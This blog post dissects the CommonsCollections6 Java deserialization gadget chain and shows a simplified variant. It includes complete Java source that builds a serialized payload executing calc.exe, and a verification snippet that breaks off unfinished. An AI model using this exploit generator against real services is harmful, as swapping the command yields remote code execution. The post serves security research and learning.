




CommonsCollection6
On this blog post we will learn about commonsCollection6 payload.
In this blog post we will take a slight different path . instead of learning the exact payload, we will learn why that particular payload and see if we can optimize it.
So let's jump in
Below is how the gadget Chain looks like for commonsCollection6.
java.io.ObjectInputStream.readObject() java.util.HashSet.readObject() java.util.HashMap.put() java.util.HashMap.hash() org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode() org.apache.commons.collections.keyvalue.TiedMapEntry.getValue() org.apache.commons.collections.map.LazyMap.get() org.apache.commons.collections.functors.ChainedTransformer.transform() org.apache.commons.collections.functors.InvokerTransformer.transform() java.lang.reflect.Method.invoke() java.lang.Runtime.exec()
let's divide the chain in 2 parts.
1st half
java.io.ObjectInputStream.readObject() java.util.HashSet.readObject() java.util.HashMap.put() java.util.HashMap.hash() org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode() org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
2nd half
org.apache.commons.collections.map.LazyMap.get() org.apache.commons.collections.functors.ChainedTransformer.transform() org.apache.commons.collections.functors.InvokerTransformer.transform() java.lang.reflect.Method.invoke() java.lang.Runtime.exec()
If you pay close attention, we already know how the 2nd half works, basically we set a hashmap and a transformerchain in lazyMap and when the get() doesn't find the key we get RCE
So let focus our attention on the first part i.e the entry part.
If you take a down-to-top approach, we will see that the TiedMapEntry.getValue() calls the lazymap.get().

SO where ever the TiedMapEntry.getValue() is getting called might be used as an intermediate gadget function.
Searching for this function call on TiedMapEntry class we see 2 functions hashCode() and toString(). This toString() was used in CC5 so let's look into the hashCode().

The hashCode() method can be invoked in many places, but from our past research we know that it definitely gets called in HashMap.hash(), which is again invoked inside put().
So, if we can reach HashMap.put() from ObjectInputStream.readObject(), we can eventually reach LazyMap.get(), which will execute our code.
The ysoserial payload shows that we can reach HashMap.put() using the HashSet class. This is true, but the process is a bit more complex. You cannot simply set the key-value pair in the HashMap and expect it to work, because the required functions do not exist. That is why, even in the ysoserial payload, the code accesses the map field and the table field from the internal implementation.
But if you pay close attention , you can see that the HashMap.readObject() there is a function called putVal(hash(key), key, value, false, false);.

The hash(key) calls key.hashCode().

So if we set the Key of the hashMap as TideMapEntry then the hashMap readObject can reach till TideMapEntry.hashCode() skipping the hashset part.
SO below is how the modified code looks like for CommonsCollection6 Gadget Chain.
import org.apache.commons.collections.Transformer; import org.apache.commons.collections.functors.ChainedTransformer; import org.apache.commons.collections.functors.ConstantTransformer; import org.apache.commons.collections.functors.InvokerTransformer; import org.apache.commons.collections.map.LazyMap; import org.apache.commons.collections.map.TransformedMap; import org.apache.commons.collections.keyvalue.TiedMapEntry; import java.io.*; import java.lang.annotation.Retention; import java.lang.reflect.Constructor; import java.lang.reflect.InvocationHandler; import java.lang.reflect.InvocationTargetException; import java.lang.reflect.Proxy; import java.util.HashMap; import java.util.Map; public class cc6complete { public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException { Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}) }; Transformer transformerChain = new ChainedTransformer(transformers); Map innerMap = new HashMap(); Map lazymap = LazyMap.decorate(innerMap, transformerChain); TiedMapEntry tme = new TiedMapEntry(lazymap, "keykey"); Map newmap = new HashMap(); newmap.put(tme, "BLABLBLA"); lazymap.remove("keykey"); FileOutputStream fos = new FileOutputStream("testing11.ser"); ObjectOutputStream oos = new ObjectOutputStream(fos); oos.writeObject(newmap); oos.close(); } }
Keep in mind that when you execute this a calc.exe will popout and if you deserialize the payload stored in testing11.ser then also a calc.exe will pop up.
If you don't want the calc.exe to pop duing the first time you have to use the reflections.
import java.io.FileInputStream; import java.io.ObjectInputStream; public class checkclass { public static void main(String args[]) { try { FileInputStream fis = new FileInputStream("E:\\ysoserialresearch\\testing11.ser"); ObjectInputStream ois = new ObjectInputStream(fis); Object obj = ois.readObject();
we can use the above code to verify the deserialization chain.
Summary
In this blog post, we dissected the CommonsCollections6 gadget chain by breaking it into two logical halves: the deserialization path leading up to `TiedMapEntry.getValue()` and the invocation path that triggers `Runtime.exec()`.
Rather than following the conventional `HashSet`-based approach used in tools like ysoserial, we optimized the chain by directly setting a `TiedMapEntry` as the key in a `HashMap`, leveraging how `HashMap.readObject()` internally calls `putVal()` and triggers `key.hashCode()` during deserialization.
This not only simplified the gadget chain but also demonstrated how understanding the internals of `HashMap` can open alternative exploitation paths. A working PoC was also shared to illustrate the concept.
Such optimizations are critical in real-world exploitation where gadget minimization or custom bypasses are necessary.
Thats it for Today.
Thanks For Reading.
Happy Hacking.
You can connect with me at: